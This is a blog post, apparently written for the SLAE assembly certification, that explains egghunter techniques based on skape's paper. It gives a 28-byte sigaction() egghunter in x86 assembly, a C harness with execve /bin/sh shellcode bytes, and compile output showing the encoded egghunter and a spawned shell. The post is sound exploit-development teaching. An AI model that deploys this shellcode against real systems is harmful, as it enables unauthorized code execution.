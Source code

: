```yaml
---
title:  "[SLAE 3] Egghunter Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Creating an egghunter shellcode

For the third assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course I've studied different egghunter payloads. The starting reference paper for this is **skape**'s [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

I've implemented the 3 methods described in the paper:
* **access()** - Small and robust egghunter using _`access()`_ system call to check validity  of addresses. 
  * **Cons**: size is 39 bytes and the egg needs to be executable because after finding it, the execution jump before the egg and continues on.
* **access() revisited** - smaller (35 bytes), minor speed improvements, egg does not need to be executable. 
  * **Cons**: sets DF flag in case of failure (in very rare cases this could impact the running of the host application)
* **sigaction()** - even smaller (30 bytes), robust and very fast (validates 16 bytes at a time). 
  * **Cons**: some very rare odd failure situation described in detail in the paper.

For the purpose of this post, I'll detail my slightly modified version of the _`sigaction()`_ egghunter:
* **sigaction() reloaded** - the smallest version (__*only 28 bytes*__). I've replaced the double check for the egg with only one check. To avoid finding the egg in the comparison from the shellcode, I've applied a small transform before searching for it (_`inc eax`_ in this case, but could be any other 1 bytecode operation also - e.g. shifting bytes).

```c
global _start   

section .text
_start:
    or cx,0xfff             ; page allignment
next_addr:
    inc ecx                 ; Pointer to region to be validated
    push byte +0x43         ; sigaction() syscall number
    pop eax                 ; Syscall number in eax
    int 0x80                ; Execut ethe syscall
    cmp al,0xf2             ; Compare with EFAULT
    jz short _start         ; Go to next page
    mov eax, <EGG>          ; The egg
    inc eax                 ; Egg modification. Avoid first find from above!
    mov edi,ecx             ; Prepare for comparison
    scasd                   ; Compare
    jnz short next_addr     ; Jump to next address
    jmp edi                 ; Jump to shellcode
```

To test it I've used the following C program simulating a real payload:
```
[  filler  ] [  egghunter  ] [  garbage  ] [  shellcode  ]
```

```c
#include <stdio.h>
#include <string.h>
 
#define     EGG     "<EGG>"
 
unsigned char sled[] = "Some misc bytes here";
unsigned char egghunter[] = 
        "<EGGHUNTER>";
unsigned char garbage[] = "Garbage, mangled bytes, whatever";
// execve(/bin/sh,..) shellcode here 
unsigned char shellcode[] = EGG
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
                "\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
 
// Function pointer
typedef int (*func_ptr)();
 
void main() {
    printf("Egghunter length: %d bytes\n", strlen(egghunter));
    printf("Shellcode Length:  %d bytes\n", strlen(shellcode));
 
    ((func_ptr) egghunter)();
}
```

The egg is configurable, and the compilation takes place from a wrapper script: 
```bash
$ ./compile.sh 
Usage: compile.sh {4 chars EGG mark}
 E.g.: compile.sh W00T
$ ./compile.sh BUBU
  [*] Using egg  BUBU
  [*] (Modified) Egg hex:, 0x55425542
  [+] Replace egg with, BUBU
  [+] Assembling egghunter
  [+] Linking egghunter
  [*] Egghunter:
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x42\x55\x42\x55\x40\x89\xcf\xaf\x75\xeb\xff\xe7
  [+] Compile shellcode tester
  [+] House cleaning
  [+] Done! run ./shellcode
$ ./shellcode
Egghunter length: 28 bytes
Shellcode Length:  29 bytes
$ whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
